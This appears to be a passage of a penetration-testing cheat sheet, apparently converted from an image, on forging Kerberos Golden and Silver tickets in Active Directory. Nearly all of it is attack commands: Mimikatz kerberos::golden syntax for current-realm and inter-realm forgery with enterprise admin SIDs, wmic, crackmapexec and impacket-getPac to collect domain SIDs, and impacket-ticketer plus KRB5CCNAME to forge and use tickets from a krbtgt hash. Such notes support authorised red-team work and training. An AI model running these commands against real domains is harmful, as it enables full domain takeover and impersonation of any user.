 - verify with klist ⇒ list cached tickets
    
  
Impacket
export KRB5CCNAME=[ticket].ccache
  
# Golden/Silver Ticket
Golden Ticket: create forged TGT for domain admin using admin’s hash
Silver Ticket: create forged TGS for service using service’s hash ⇒ useful for impersonating users when logging into a service
- same effect as requesting a TGT or TGS, but without communicating with the domain controller
    
- you can create it for any user, even one that doesn’t exist
    
  
Mimikatz
  
Domain SID:
wmic useraccount get name,sid
  
Current Realm:
kerberos::golden /user: /domain: /sid: /krbtgt: /ptt
- sid ⇒ DC SID
    
- krbtgt ⇒ [NTLM hash]
    
- user and id can be whatever you want them to be
    
- /user:Administrator /id:500 for golden ticket
    
- service ⇒ specify SPN for silver ticket
    
  
Inter-Realm:
kerberos::golden /user: /domain: /sid: /krbtgt: /service:krbtgt /sids: /ptt
- sid ⇒ child DC SID
    
- krbtgt ⇒ [NTLM hash]
    
- sids ⇒ enterprise admin group SID
    
- user and id can be whatever you want them to be
    
- /user:Administrator /id:500 for golden ticket
    
  
Impacket
  
Domain SID:
impacket-getPac -targetUser Administrator [domain]/[user]:[password]
crackmapexec ldap [DC] -u [user] -p [password] -k --get-sid
  
Current Realm:
impacket-ticketer -domain [domain] -domain-sid [SID] -nthash [krbtgt hash] Administrator
- for another user: replace Administrator with -user-id [ID] [user]
    
- -spn [SPN] for silver ticket
    
export KRB5CCNAME=[ticket].ccache
  
Inter-Realm:
Manually
impacket-ticketer -domain [domain] -domain-sid [SID] -nthash [krbtgt hash] -spn krbtgt -extra-sid [enterprise admin group SID]
export KRB5CCNAME=[ticket].ccache
  